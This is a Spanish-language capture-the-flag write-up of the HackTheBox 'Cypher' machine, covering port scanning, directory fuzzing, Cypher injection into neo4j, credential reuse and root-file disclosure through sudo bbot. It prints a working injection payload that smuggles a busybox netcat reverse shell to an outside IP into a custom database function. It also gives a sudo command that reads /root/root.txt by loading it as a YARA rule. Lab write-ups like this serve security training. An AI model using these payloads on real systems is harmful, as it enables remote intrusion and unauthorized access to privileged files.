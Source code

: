 ```yaml
---
title: Cypher - HackTheBox Season 7
date: 2025-03-09 11:00:00 +0000
layout: post
permalink: /writeups/HTB/LABS/cypher-htb-season7
categories: [Labs & CTF, Write Up, Hackthebox]
tags: [Linux, CTF, Write Up, Hackthebox]
image:
  path: /assets/img/writeups/hackthebox/cypher_htb_s7/cypher.png
  alt: HackTheBox
description: >
  Guía en español para Cypher - HackTheBox Season 7
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 20:19 CET
Nmap scan report for cypher.htb (10.10.11.57)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto web 

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image.png)

En el portal web encontramos lo que parece una aplicación que utiliza grafos para mostrar la información sobre la superficie de ataque de un objetivo o empresa.

Si hacemos click en probar el demo nos redirige a un portal para iniciar sesión.

Probando inyección básica para probar el login vemos lo siguiente:

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-1.png)

Vemos que efectivamente tenemos posibilidad de inyectar comandos en el portal web pero la base de datos (como era de esperar por la naturaleza de la aplicación) es de tipo NOSQL, es neo4j y se basa en bases de datos para grafos.

Tras un rato probando direntes inyecciones de tipo cypher no conseguí nada efectivo.

[Cypher inyections cheatsheet](https://pentester.land/blog/cypher-injection-cheatsheet/)

## Fuzzing de directorios 

Mientras tanto realizamos un fuzzing de directorios sobre la web y por suerte encontramos una ruta que parece ser interesante.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-2.png)

Dentro encontramos un archivo `.jar` con nombre apoc-extensión que puede ser potencialemente valioso ya que se trata de una extensión utilizada por neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-3.png)

Al abirlo en un decodificador online de jar encontramos que efectivamente se trata de un plugin para la base de datos neo4j.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-4.png)

Dentro del código vemos una clase interesante que añade una función para hacer petciones HTTP y devuelve el estado de la misma.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-5.png)

## Inyección cypher en neo4j

Para hacer uso de esta función customizada en la base de datos necesitamos llamarla con el prefijo `custom.` y el nombre de la función, pero antes debemos fijarnos en como toma el valor del nombre de usuario la base de datos y para esto podemos servirnos del error obtenido en Burp.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-6.png)

Sabiendo que esto es así podemos crear el payload de inyección y probarlo.

```bash
a' return h.value as a UNION CALL custom.getUrlStatusCode("http://10.10.16.73:80;busybox nc 10.10.16.73 4444 -e /bin/bash;#") YIELD statusCode AS a RETURN a;//
```

Utilizamos la revshell con busybox ya que parece que el sistema no tiene nc por defecto o no lo tiene referenciado en el PATH.

> Dato : busybox es un binario multi-herramienta común en sistemas embebidos o con recursos limitados. Muchas distribuciones minimalistas (como routers, IoT o contenedores) no incluyen nc independiente, pero sí busybox, que integra nc entre otras utilidades.
{: .prompt-info}

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-7.png)

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-8.png)

Ahora tenemos acceso a la maquina como el usuario neo4j.

Tras un rato mirando archivos encontramos algo interesante, unas credenciales de acceso.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-9.png)

> Nota : Este usuario no tiene privilegios para acceder a la user flag.
{: .prompt-warning}

## Acceso como usuario

Probando las credenciales encontradas con el usuario `graphasm` por ssh tenemos acceso a la maquina.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-10.png)

### User flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-11.png)

## Escalada de privilegios

Haciendo una comprobación básica de permisos sudo vemos que tiene permisos root en la ejecución de cun binario llamado `bbot`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-12.png)

[BBot Github](https://github.com/blacklanternsecurity/bbot)

Parece que BBot es una herramienta de reoconocimiento automatizada para la exploración de vulnerabilidades en aplicaciones web.

En la wiki buscando que módulos tiene que puedan ser útiles encontramos las yara rules.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-13.png)

Esto nos permite cargar reglas yara para buscar en el código de la aplicación web. 

El plan es indicar que la flag como root.txt es un fichero de reglas yara para que este lo cargue ya que tiene privilegios root.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-14.png)

Parece que carga los datos del fichero pero no muestra nada de las reglas.

Buscando más información en los parámetros de uso de BBot encontramos un parámetro llamado `-d` que basicamente es igual a un clásico `--verbose`.

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-15.png)

Esto nos mostrará más información en el proceso de carga de las reglas.

> Nota : El parámetro marcado con una flecha no lo usé pero es muy útil ya que para el escaneo antes de ser ejecutado pero siempre podemos pararlo manualmente con Ctrl+C.
{: .prompt-info}

Si ahora ejecutamos el comando con el parámetro `-d` podemos ver que se está cargando el archivo de la flag como una regla yara y muestra el contenido de la misma.

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt -d
```
### Root flag

![alt text](/assets/img/writeups/hackthebox/cypher_htb_s7/image-16.png)
